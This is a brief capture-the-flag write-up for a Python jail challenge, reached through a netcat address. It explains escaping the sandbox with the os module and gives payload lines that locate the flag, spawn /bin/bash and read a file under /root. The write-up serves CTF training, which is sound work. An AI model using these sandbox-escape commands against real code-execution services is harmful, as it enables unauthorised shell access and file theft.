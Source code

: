# Python Break
## Jail

> This feels like a whole different world
> 
> nc 128.199.77.173 1342

### Files
- N/A

### Analysis
Participants were expected to figure out that this was also a Python code executor.<br/>
Instead of accessing a variable, the challenge required participants to break out of the Python environment to access the flag by using the OS module.

### Solution
1. To locate the flag file<br/>
  ```python
  print(os.system("locate flag.txt"))
  ```

2. Gaining root access to the container or directly reading the file<br/>
  ```python
  print(os.system("/bin/bash"))
  ```
  or 
  ```python
  print(os.read(os.open('/root/src/flag.txt', os.O_RDONLY),100))
  ```

